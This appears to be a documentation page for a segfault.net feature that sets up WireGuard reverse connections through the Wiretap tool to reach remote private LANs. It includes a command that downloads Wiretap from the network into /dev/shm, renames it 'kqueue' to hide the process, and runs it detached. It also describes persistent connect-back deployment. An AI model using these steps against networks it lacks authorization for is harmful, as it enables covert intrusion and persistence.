

<div style="text-align:center">
    <h1>WireGuard Reverse Connection</h1>
    <p>Hacks, Tips, Tricks and other shenanigans</p>
</div>

## Misc Tips

1. Use `curl rpc/net/help` for some help
1. `-d name=all` works with all commands
1. `curl rpc/net/show` may show that the interface is up but that no data has been transfered. It is likely that you have not started `wiretap` on the Exit Node yet or that Wiretap can not reach your Root Server.
1. It is only possible to have 1 Interface up at a time. (if you like us to add multi-interface support then please contact us.)

## Hide the Wiretap process

```shell
cd /dev/shm
curl -fsSL https://github.com/sandialabs/wiretap/releases/download/v0.2.1/wiretap_0.2.1_linux_amd64.tar.gz | tar xfz - -O >kqueue
PATH=.:$PATH
setsid kqueue server --private ...
```

## Deploy Wiretap first

It is possible to install [Wiretap](https://github.com/sandialabs/wiretap) on many many servers and only activate the Interface on your [Root Server](../) if and when needed. The Root Server does not need to know about the Wiretap installations until you like to access the remote private LAN from your [Root Server](../).

A deployed Wiretap will connect back to your [Root Server](../) indefinitely and until it is uninstalled from the remote private LAN.

__Step #1: Allocate a UDP port on your Root Server__

```shell
curl http://rpc/net/init
```

Take note of the *port*. The UDP Port is now associated with your [Root Server](../). Ignore the rest.

__Step #2: Generate Keys on the Exit Node__

The Exit Node is any Linux, Windows or OSX system inside the remote private LAN.

```shell
wiretap configure -e XX.segfault.net:<port> # Replace 'XX' with the segfault region you are using
```

{:refdef: style="text-align: center;"}
{:height="80%" width="80%"}
{: refdef}

Take note of the *PrivateKey* and *PublicKey*.

Start Wiretap as described in the output (green):

```shell
wiretap serve --private <...> --public <...> --endpoint XX.segfault.net:<port>
```

Repeat this step on as many Exit Nodes as you like and keep note of every new PrivateKey/PublicKey for each Exit Node.

__Step #3: Access the Network__

On your [Root Server](../):

```
curl http://rpc/net/up -d name=PrivLAN31337 -d private=<PrivateKey> -d exit_public=<PublicKey>
```

## Contact


